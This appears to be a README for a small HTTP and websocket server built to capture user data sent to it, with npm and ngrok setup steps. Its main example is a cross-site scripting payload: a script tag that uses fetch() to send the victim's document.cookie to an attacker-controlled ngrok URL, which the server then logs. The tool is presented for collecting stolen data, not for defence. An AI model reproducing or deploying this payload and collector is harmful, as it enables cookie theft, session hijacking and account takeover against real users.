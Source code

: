 ## info
http server capture user data by either sending the data in a query or in the body.

#### Capture user cookies ####

```js
  <script>
      fetch(`https://NGROK-URL?cookie=${encodeURIComponent(document.cookie)}`)
  </script>
```

_____________________________

### Running the servers

The first step is to install depencencies:

```bash
npm install
```

Then you can run the regular HTTP server (CORS enabled):

```bash
npm run http
```

Or the websocket server:

```bash
npm run ws
```

_____________________________

### HTTPS/WSS/External access

You can use ngrok to connect via HTTPS, WSS or externally without changing any configuration.
https://dashboard.ngrok.com/get-started

Once it's installed, you can then expose the HTTP server:

```bash
ngrok http 8000
```

Or the Websocket server:

```bash
ngrok http 8080
```

_Just use wss://NGROK_URL  instead of https://NGROK_URL for wss connections_
<br>
if you dont want to use ngrok you can host them on heroku or vercel but insted of console.log write to a log file 
